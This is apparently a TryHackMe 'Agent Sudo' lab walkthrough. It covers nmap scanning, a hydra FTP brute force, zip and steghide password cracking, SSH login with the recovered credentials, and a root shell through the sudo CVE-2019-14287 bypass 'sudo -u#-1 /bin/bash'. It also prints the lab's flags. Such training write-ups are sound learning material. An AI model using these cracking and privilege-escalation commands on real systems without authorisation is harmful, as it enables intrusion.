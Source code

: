 # Agent Sudo

![Logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5f59219d-e80c-4ab9-a2b5-b67ded75b5e3)

## Enumeration

Let's enumerate the machine with nmap :

```bash
nmap -sT -sV 10.10.52.49
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e056fada-cec3-472c-92f8-e78987ef27cd)

we brows to web server on port `80` :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/810ff7da-99a0-4ae6-aa56-6c7adaeeb214)

we see that the page needs user-agent to access the site and `R` is agent that wrote this message.

we can infere that other agents codenames are like this, try accessing the website with curl command and user agent.

if we set user-agent to `A` or `B` nothing happens, but setting user-agent as `C` will show a different message :

```bash
curl http://10.10.52.49/ -H 'user-agent: C' -L
```

`-L` is for following redirects :

![userAgent](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/403f2967-e34f-46b2-b077-1c49946d7b38)

we can see this is a message to user `chris`, so we can brute force the ftp login with this user :

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.52.49 ftp -v
```

yes, hydra finds the password :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/55dcb21c-d77f-4cf5-8a5f-40184a691fc8)

login to ftp server with this credential : `chris:crystal` and use `dir` to show the content, download all the files there.

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/49494c20-cb95-4718-ba24-4b397c081e5c)

cat the content of `To_agentJ.txt` file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

so we find out that the login password is in the fake picture, let's examin the pictures

we start by examining `cutie.png`

```bash
binwalk -e cutie.png --run-as=root
```

there is a zip file inside and it is password protected.

use `zip2john` to brute force the password :

```bash
zip2john cutie.png > hash.txt
```

and the use it in `john` :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![zipPass](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fa83858b-c463-48c3-adff-0af0763b04bc)

use this password to open the zip file :

```bash
7za x 8702.zip
```

and open the `To_agentR.txt` :

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

the string `QXJlYTUx` is a base64 encoded so we need to decode it :

```bash
echo -n 'QXJlYTUx' | base64 -d

Area51
```

Let's examin the `cute-alien.jpg` picture :

```bash
steghide info cute-alien.jpg
```

it needs a password, use `Area51` password which we found in the zip file of `cutie.png` :

```bash
steghide extract -sf cute-alien.jpg
```

there is a file call `message.txt` inside, open it :

```text
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

from this message we understand that the password of user `james` is `hackerrules!`

yes we can now ssh to machine with these credentials `james:hackerrules!`

now, cat the user.txt file here :

```bash
cat user_flag.txt

b03d975e8c92a7c04146cfa7a5a313c7
```

and download the `Alien_autospy.jpg` file to your machine using scp :

```bash
scp james@10.10.52.49:Alien_autospy.jpg /root
```

for the question `What is the incident of the photo called?` is used the hint and then used this google dork :

```text
Alien autospy site:foxnews.com
```

and the first link gives you the anwer `Roswell alien autopsy`.

## Privilege Escalation

use `sudo -l` to see if any sudo permissions is set for user james :

```bash
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

emmmm!!, now we can use /bin/bash as root but wait, this is suspicious, lets check the sudo version with `sudo -V` :

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

just search for the vulnerabilities of this version in exploit db or google search the `(ALL, !root) /bin/bash` exploits :

you will find the `CVE-2019-14287` for this sudo version and the exploit is :

```bash
sudo -u#-1 /bin/bash
```

![exploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/4ef94669-139d-42b8-8586-69dfe2f2ff4e)

cat the content of `/root/root.txt` :

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

and with the above text we see that Agent R is Deskel.
